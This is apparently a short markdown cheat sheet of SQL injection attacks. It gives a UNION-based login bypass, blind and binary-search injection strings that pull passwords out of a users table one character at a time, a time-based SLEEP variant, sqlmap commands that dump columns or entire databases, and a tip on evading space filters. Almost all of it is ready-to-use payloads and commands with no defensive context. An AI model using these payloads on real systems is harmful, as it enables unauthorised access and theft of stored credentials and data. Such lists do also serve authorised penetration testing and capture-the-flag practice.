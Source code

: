 # SQL

## Union injection login form
```
Username: ' UNION SELECT 'pass' AS password#
Password: pass
```

## Blind injection character by character
```
' or (SELECT MID(password,1,1) FROM users LIMIT 0,1)='a' #
' or (SELECT MID(password,1,1) FROM users LIMIT 0,1)='b' #
' or (SELECT MID(password,1,1) FROM users LIMIT 0,1)='c' #
...
' or (SELECT MID(password,1,1) FROM users LIMIT 0,1)='z' #

' or (SELECT MID(password,2,1) FROM users LIMIT 0,1)='a' #
' or (SELECT MID(password,2,1) FROM users LIMIT 0,1)='b' #
' or (SELECT MID(password,2,1) FROM users LIMIT 0,1)='c' #
...
```

## Binary blind injection
```
' or (SELECT ORD(MID(password,1,1)) FROM users LIMIT 0,1)<=ORD('m') #'
```

## Totally blind injection
```
' OR (SELECT IF((SELECT ORD(MID(password,1,1)) FROM users LIMIT
0,1)<=ORD('n'), SLEEP(1), NULL)) #'
```

## Sqlmap specific dump
```
sqlmap --threads <n> -u <url> -D <database> -T <table> -C <column>
```

## Sqlmap complete dump
```
sqlmap --threads <n> -u <url> --dump
```

## Tips
* If spaces are not allowed try tabs or SQL comments
